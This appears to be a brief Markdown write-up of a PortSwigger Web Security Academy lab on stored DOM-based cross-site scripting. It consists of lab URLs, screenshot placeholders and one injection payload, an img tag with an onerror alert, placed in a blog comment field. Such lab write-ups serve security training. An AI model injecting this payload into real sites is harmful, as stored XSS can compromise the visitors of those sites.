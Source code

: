 # Lab: Stored DOM XSS

URL: https://0af6009103611d68809b0802006c0071.web-security-academy.net/

![](./Images/img1.png)

URL: https://0af6009103611d68809b0802006c0071.web-security-academy.net/post?postId=2

![](./Images/img2.png)

# Testing fields:

![](./Images/img3.png)

<br>

URL: view-source:https://0af6009103611d68809b0802006c0071.web-security-academy.net/resources/js/loadCommentsWithVulnerableEscapeHtml.js

![](./Images/img4.png)

# Exploitation:

Payload:

```
Pentest</p><img src=x onerror=alert(1)>
```

![](./Images/img5.png)

<br>

![](./Images/img6.png)